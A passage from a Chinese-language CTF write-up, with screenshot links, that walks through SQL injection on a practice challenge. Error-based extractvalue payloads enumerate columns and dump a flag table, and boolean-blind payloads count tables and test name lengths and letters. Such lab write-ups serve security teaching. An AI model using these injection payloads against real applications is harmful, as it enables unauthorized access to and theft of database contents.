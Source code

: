 <img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439871.png" alt="image-20210719154125986" style="zoom:67%;" />

5. 查列名

```
?id=extractvalue(0x0a,concat(0x0a,(select group_concat(column_name) from information_schema.columns where table_schema=database())))
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439872.png" alt="image-20210719154218790" style="zoom:67%;" />

6. 查数据

```
?id=extractvalue(0x0a,concat(0x0a,(select group_concat(flag) from flag)))
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439873.png" alt="image-20210719154257406" style="zoom:67%;" />



### 布尔注入

> [wp](https://blog.csdn.net/Xxy605/article/details/109750292?utm_medium=distribute.pc_relevant.none-task-blog-baidujs_title-0&spm=1001.2101.3001.4242)

1. 整数型，2列

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439874.png" alt="image-20210719155150592" style="zoom:67%;" /><img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439875.png" alt="image-20210719155311112" style="zoom:67%;" />

2. 查找有无含flag列名的表=》有

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439876.png" alt="image-20210719155428893" style="zoom:80%;" />

3. 查询当前库下有几个表，【==注意！用and==，or一定返回success】=》两个表

```
?id=1 and (select count( TABLE_NAME) from information_schema.TABlES where TABLE_SCHEMA=database( ) ) =2
```

![image-20210719160304316](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439877.png)

3. 获取第一个表的长度=》4=》**怀疑表名叫flag

```
?id=1 and (select length( TABLE_NAME) from information_schema.TABlES where TABLE_SCHEMA=database( ) limit 0,1) =4
?id=1 and (select length( TABLE_NAME) from information_schema.TABlES where TABLE_SCHEMA=database( ) limit 1,1) =4  【第二个表名也是4长度】
```

![image-20210719160513618](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439878.png)



3. 查询当前数据库下两个表名第一个字母是不是f

```
?id=1 and mid((select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database( ) limit 0,1) ,1,1) ='f'【第一个表报错，说明第二个表名是flag】
?id=1 and mid((select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database( ) limit 1,1) ,1,1) ='f'【success】
```
